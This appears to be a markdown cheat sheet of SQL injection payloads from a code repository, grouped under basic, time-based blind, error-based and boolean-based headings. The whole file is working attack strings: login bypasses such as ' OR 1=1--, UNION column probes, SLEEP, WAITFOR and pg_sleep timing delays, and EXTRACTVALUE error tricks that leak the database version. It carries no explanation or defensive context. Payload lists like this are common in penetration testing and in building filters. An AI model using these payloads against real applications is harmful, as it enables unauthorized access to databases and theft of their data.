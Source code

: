 # SQL Injection Payloads

## Basic SQLi
```
' OR '1'='1
' OR 1=1--
' OR 1=1#
' OR 1=1/*
admin'--
admin'#
' UNION SELECT NULL--
' UNION SELECT 1,2,3--
```

## Time-based Blind SQLi
```
' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
'; WAITFOR DELAY '0:0:5'--
' OR pg_sleep(5)--
```

## Error-based SQLi
```
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

## Boolean-based Blind SQLi
```
' AND 1=1--
' AND 1=2--
' AND (SELECT SUBSTRING(@@version,1,1))='5'--
```